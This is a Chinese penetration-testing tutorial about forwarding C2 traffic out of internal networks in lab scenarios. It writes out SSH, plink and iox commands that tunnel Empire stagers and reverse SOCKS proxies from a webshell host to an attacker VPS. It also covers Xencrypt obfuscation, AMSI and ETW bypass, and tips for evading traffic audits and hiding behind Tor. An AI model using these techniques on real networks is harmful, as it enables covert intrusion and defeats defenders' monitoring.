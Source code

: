 > 原文链接: https://www.anquanke.com//post/id/204347 


# 内网渗透：流量转发场景测试


                                阅读量   
                                **452630**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t0172014a19fa79ad6c.png)](https://p1.ssl.qhimg.com/t0172014a19fa79ad6c.png)



## 0x00 前言

​ 流量转发，可以说时内网渗透的基础，网上的文章也挺多的，但是我最近看见别人的粗糙的方式，比如把CS直接传到服务器上这样的操作，我觉得是应该总结一下各种流量转发的场景了，方便渗透中使用。



## 0x01 本文用到的工具

```
- Empire https://github.com/EmpireProject/Empire (C2)
- Xencrypt.ps1 https://github.com/the-xentropy/xencrypt/blob/master/xencrypt.ps1 (powershell encrypt)
- IOX https://github.com/EddieIvan01/iox
- Neo-regeorg https://github.com/L-codes/Neo-reGeorg
- Plink  C:Program Files (x86)GitExtensionsPuTTYplink.exe

```



## 0x02 复杂度0

1.例如反弹shell需要反弹到自己VPS上，那这里我们需要把CS或者empire等C2工具传到VPS上吗？

不需要，按照隐藏自己的原则，VPS上基本不能有渗透的任何文件，以免留下痕迹，命令其实也很简单，在win10以及linux上都有ssh命令了，所以：

```
ssh  -CNfT -R 4444:192.168.137.129:443 root@vpsip
```

注：vpsip 需要配置远程端口转发支持，修改`/ect/ssh/sshd_config`添加:

```
AllowAgentForwarding yes
AllowTcpForwarding yes
GatewayPorts yes
```

### <a class="reference-link" name="%E5%AE%9E%E9%99%85%E6%BC%94%E7%A4%BA"></a>实际演示

被控端：192.168.137.164 （nat）

kali: 192.168.0.105 (bridge)

这两台机器本身互不相同，但是都能出网，所以使用VPS来中转。

这里使用Empire作为C2，使用https监听,这里的HOST要设置为VPSIP和端口

[![](https://p0.ssl.qhimg.com/t01915fcee07ff76518.png)](https://p0.ssl.qhimg.com/t01915fcee07ff76518.png)

接着ssh端口转发：

[![](https://p2.ssl.qhimg.com/t019b7ab4fc13b62492.png)](https://p2.ssl.qhimg.com/t019b7ab4fc13b62492.png)

生成一个stager，这里生成的时候IP就是VPSIP，端口就是4444，这样会直接将流量转到虚拟机的Empire的443端口来。生成powershell 的stager，先解码出来再用xencrypt加密运行。

`Invoke-Xencrypt -InFile xx.ps1 -OutFile banana.ps1 -Iterations 3`

[![](https://p1.ssl.qhimg.com/t016363e2941b854406.png)](https://p1.ssl.qhimg.com/t016363e2941b854406.png)

[![](https://p0.ssl.qhimg.com/t011fcd485b8f132fbe.png)](https://p0.ssl.qhimg.com/t011fcd485b8f132fbe.png)

这样只要受控端可以直接出网的情况的话，就可以这样利用。而且vps到内网机器的流量都是加密的。empire其实自带一个http_hop listener，把生成的文件传到A VPS上面，再使用http_hop再生成stager来请求A VPS，流量就会被转移到真实的B VPS上。具体可以参考：[https://www.hackingarticles.in/hiding-ip-during-pentest-using-powershell-empire-http_hop/](https://www.hackingarticles.in/hiding-ip-during-pentest-using-powershell-empire-http_hop/)



## 0x03 复杂度1

其实为了自己更安全，C2最好放在自己虚拟机自定义的一个不能出网的网段，然后远程端口转发到自己C2监听的端口。命令与其实上面一样：`plink  -CNfT -R 4444:192.168.13.29:443 root[@vpsip](https://github.com/vpsip)`只不过要在windows的物理机上执行，因为只有windows物理机能够出网而且又能访问到特定网段。这里就不具体说明了，因为我们主要关注被控端能够访问到我们的VPS端口，所以自己要跳几条VPS，系统环境等随便怎么设置都可以。

场景：拿到webshell，发现是内网一台windows不能出网。这就需要找到一台能够出网的了。

先使用regeorg进行正向代理，寻找到出网机器。这里依然可以使用ssh远程转发，在跳板机上面执行。但是我们这使用IOX来演示，适合自己VPS是windows或者突然忘了自己vps密码的人:)

### <a class="reference-link" name="%E5%AE%9E%E9%99%85%E6%BC%94%E7%A4%BA"></a>实际演示

测试环境：

debian:192.168.217.92/192.168.137.139 双网卡

win10:192.168.217.128

vps:就用上面的4444端口

1.把iox linux 64bit传到debian这个跳板机上执行：

```
./iox fwd -l 4444 -r vpsip:4444
```

[![](https://p2.ssl.qhimg.com/t013e03c72917375047.png)](https://p2.ssl.qhimg.com/t013e03c72917375047.png)

2.重新生成stager，上传到win10上，因为win10只能访问到192.168.217.139，所以配置host参数为[http://192.168.217.92:4444，](http://192.168.217.92:4444%EF%BC%8C) 这里我们在1中已经监听了4444端口流量并且转发到了VPS上。

这里的listener必须配置为http，我自己测试发现https的上线不了，https直接网页会报SSL错，但是还是能够访问的，说明流量转发正确。猜测可能是IOX转发https流量不行。

[![](https://p4.ssl.qhimg.com/t01d6a02c19caea0d4d.png)](https://p4.ssl.qhimg.com/t01d6a02c19caea0d4d.png)

演示图中使用的是http的listener:

[![](https://p3.ssl.qhimg.com/t01159834f0a4126970.gif)](https://p3.ssl.qhimg.com/t01159834f0a4126970.gif)

整个流程：

内网不能出网的windows10，通过debian把流量转发到vps端口，vps再转到自己的虚拟机的C2中。

配置stager时可以配置http代理，

[![](https://p4.ssl.qhimg.com/t010529e604aaf04d69.png)](https://p4.ssl.qhimg.com/t010529e604aaf04d69.png)

再渗透中，很多都是通过代理出网的，找到代理服务器IP和端口，设置http/https代理，生成stager的时候host就设置为vps 就可以了，不用设置为内网的机器。



## 复杂度1.1

### <a class="reference-link" name="%E5%AE%9E%E9%99%85%E6%BC%94%E7%A4%BA"></a>实际演示

环境1：

有VPN账号，但是在里面就是找不到代理或者可控的出网机器。

1.在自己VPN拨号的虚拟机中，执行`ssh  -CNfT -L 4444:vpsip:4444 root[@vpsip](https://github.com/vpsip)`或者`./iox fwd -l 4444 -r vpsip:4444`,将发往自己4444端口流量转发到192.168.137.129:443 C2控制端。

2.在被控端windows上的webshell执行payload，指定host为我们VPN拨号后分配的地址。

环境2：

无VPN账号，有regeorg 的正向代理和webshell权限。

那就正向代理:)

环境3：

内网机器可以出网，但是没有公网IP，不使用regeorg 的正向代理。

```
./iox proxy -r vps:9999  (webshell上执行 socks反弹)
./iox proxy -l 9999 -l 1080 (vps上执行)
```

这样只有把代理设置为vps:1080，就是内网正向的socks代理了。

```
./iox fwd -l 1088 -r vpsip:1080
```

如果运行上面这条命令在自己虚拟机上，这样本地设置127.0.0.1:1088这个代理一样可以代理访问到内网。

带加密的话IOX也非常简单,这里使用虚拟机来演示下：

```
./iox proxy -r *vps:9999 -k 788123  (webshell上执行)
./iox proxy -l *9999 -l *1080 -k 788123(vps上执行)
./iox fwd -l 1088 -r *vpsip:1080 -k 788123(自己的机器)
```

[![](https://p4.ssl.qhimg.com/t017fb7e1306feaed5c.png)](https://p4.ssl.qhimg.com/t017fb7e1306feaed5c.png)

可以看见kali是不能访问到那边的，但是我通过这样正向socks代理就可以了。



## 总结

​ 本来开始准备用SILENTTRINITY作为C2的，生成c# stager,然后使用detout来编码生成shellcode。detout生成的shellcode有patch amsi和script logging,dev的分支也加上了bypass etw monitor.但是ST这个框架还是不稳定，而且功能欠缺多，但是这种技术思路很好。detout+C#的马还是很好用的。

​ 本来内网渗透中，环境会更复杂，我这里完全是抛砖引玉，一个基本思路，清楚的知道自己的流量走向，不管怎么复杂都一样。文中提到的技术，都跟自己VPS和自己的网络情况有很大关系，网速不好，体验就不好。这些工具都带有加密的功能，这样会在流量审计上更好过一点，不会上传C2到别人服务器上面，在其中某个点加个tor网络就更能隐藏自己了:）
